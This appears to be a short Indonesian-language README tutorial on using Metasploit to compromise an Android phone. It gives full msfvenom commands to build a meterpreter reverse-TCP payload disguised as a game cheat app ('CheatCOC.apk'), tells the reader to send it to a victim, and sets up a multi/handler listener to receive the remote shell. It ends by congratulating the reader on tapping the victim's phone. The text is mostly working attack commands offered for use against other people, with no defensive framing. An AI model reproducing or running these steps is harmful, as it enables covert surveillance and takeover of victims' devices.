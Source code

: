# Metasploit

# Android Attack 

$sudo apt update

$sudo apt upgrade

$ifconfig (untuk mengetahui ip)

$sudo su (masuk ke menu root)

Membuat payload dengan perintah

 #msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.111.61(ip yang di cek tadi) LPORT=4321 R> CheatCOC.apk

tunggu dan jika sudah selesai cek aplikasi yang sudah di buat tadi di folder /home/kali

kemudian kirim aplikasi ke target/korban

buat exploit handler dengan perintah

#etc/init.d/postgresql start

#msfconsole

#use multi/handler

#set payload android/meterpreter/reverse_tcp

#set LHOST 192.168.111.61

#set LPORT 4321

#exploit

kemudian tunggu target/korban membuka aplikasi yang sudah di kirim tadi

>? (untuk melihat apa saja perintah yang dapat dilakukan)

# selamat kamu telah menyadap hp target/korban mu :)

